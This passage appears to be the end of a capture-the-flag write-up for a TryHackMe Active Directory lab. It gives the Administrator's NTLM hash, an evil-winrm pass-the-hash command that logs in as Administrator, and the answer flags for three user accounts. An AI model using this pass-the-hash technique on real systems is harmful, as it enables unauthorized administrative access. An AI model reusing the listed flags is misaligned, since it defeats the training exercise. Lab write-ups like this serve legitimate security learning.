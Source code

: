 ```$ sudo openvpn /home/kali/Desktop/coedoverheated41.ovpn```
> What is the Administrators NTLM hash?  `0e0363213e37b94221497260b0bcb4fc`

> What method of attack could allow us to authenticate as the user without the password?  `Pass the hash`

> Using a tool called Evil-WinRM what option will allow us to use a hash?  `-H`

# Task 8 (Flag Submission Panel)
Submit the flags for each user account. Which are located on each user's desktop

**Firstly** we use must login as an Administrator which will be done by passing Administrator account’s hash to log in by passing the hash method via ```evilwinrm``` tool, we’ll be Administrator user on the system.

``` evil-winrm -i <target ip> -u Administrator -H 0e0363213e37b94221497260b0bcb4fc ```
**OR** there is another method by using ```psexex.py``` from ```impact tools``` 

![2023-07-26 12_51_43-Window](https://github.com/zeyadtarekXx/Attractive-Directory-Writeup/assets/61972622/0de1722d-6ec7-4e91-8c32-de3157524d88)

BUT ether way u will eventually reach the same goal

Then **FINALLY** by navigating through the Desktops of the users we will capture the Flags and the MAchine will be solved !!

**FLAGS**

**svc-admin**
> **_Answer_**: _TryHackMe{K3rb3r0s_Pr3_4uth}_

**backup**
> **_Answer_**:  _TryHackMe{B4ckM3UpSc0tty!}_

**Administrator**
> **_Answer_**:  _TryHackMe{4ctiveD1rectoryM4st3r}_

THANK YOU FOR READING
